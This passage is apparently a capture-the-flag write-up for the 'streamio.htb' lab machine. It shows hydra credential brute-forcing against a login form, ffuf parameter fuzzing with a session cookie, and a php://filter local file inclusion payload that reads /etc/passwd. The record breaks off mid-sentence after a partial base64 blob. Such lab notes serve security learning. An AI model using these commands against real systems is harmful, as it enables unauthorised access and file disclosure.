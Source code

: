 `cat user.hash.pw.txt | awk -F: '{print $1":"$3}' > userpass.txt`
![[Pasted image 20250106190500.png]]
`-C` flag for hydra is the : separated password format (i.e. the format of userpass.txt)

`hydra -C userpass.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"`

Found a match 

![[Pasted image 20250106191020.png]]
Login with found creds 

Going back to hidden directories:

![[Pasted image 20250106191158.png]]
Navigate to `/admin`

Need to fuzz this argument in the URL

![[Pasted image 20250106191325.png]]

Using #ffuf for this fuzzing again

Grab authorization cookie from Burp

![[Pasted image 20250106191704.png]]


`ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=0oaqmve702c31ioeq96tfl5pan' --fs 1678`

![[Pasted image 20250106191834.png]]

New parameter to test: "debug"

![[Pasted image 20250106191957.png]]

Looks like this option is for developers only 

![[Pasted image 20250106201602.png]]

Adding more parameters..

```
?debug=php://filter/convert.base64-encode/resource=/etc/passwd
```
![[Pasted image 20250106202155.png]]
Got something:
![[Pasted image 20250106202230.png]]
![[Pasted image 20250106202356.png]]
`PD9waHAKZGVmaW5|KCdpbmNsdWRIZCcsdHJ1ZSk7CnNIc3Npb25fc3RhcnQoKTsKaWYoIW|zc2VOKC/PgoJCTwvZGI2PgoJPC9jZW50ZXI+CjwvYm9keT4KPC9odG1sPg==

Decoding this base64 with 
